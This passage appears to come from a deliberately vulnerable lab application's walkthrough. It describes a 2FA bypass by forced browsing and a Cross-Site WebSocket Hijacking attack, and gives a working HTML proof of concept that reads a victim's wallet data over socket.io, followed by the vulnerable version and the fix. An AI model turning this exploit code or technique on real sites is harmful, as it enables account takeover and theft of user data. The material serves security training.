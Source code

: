 Application has implemented 2FA insecurely it presents a 2FA page after login if users have enabled it but an attacker can bypass it by forced browsing.

### Exploit:

1. Setup 2FA on your victim account logout from the account.
2. As an attacker login to the victim's account you will see the 2FA page but you can easily bypass it by using the forced browsing technique.

## 16. Cross-Site WebSocket Hijacking

Application is using an old version of socket.io which by default enables CORS your goal is to exploit it to access the wallet information of the victim user.

### Exploit

1. Save the following code in an HTML file on your server.
   
```html
<html>
<head>
<!-- websocket client library v2.3.0 -->
<script src="https://cdn.jsdelivr.net/npm/socket.io-client@2.3.0/dist/socket.io.min.js"></script>
</head>
<body>
<center>Cross Site WebSocket Hijacking</center>
<script>
window.onload = function(){
  var socket = io.connect('http://tauheedkhan.com:9000/'); // connect to websocket host
  socket.emit('crypto_usd_value'); // send websocket message to receive user wallet information
  socket.on('crypto_usd_value', data =>{
    alert(JSON.stringify(data)) // alert user wallet information
  })
}
</script>
</body>
</html>
```

2. Open the HTML file on your victim browser and you will see an alert showing the wallet information of the victim user.
   
### Vulnerable Code

**/package.json**

```
    "socket.io": "2.3.0",
```

### Fix

Use the latest version of the socket.io package to fix the issue as the version used in the application by default enables the CORS.
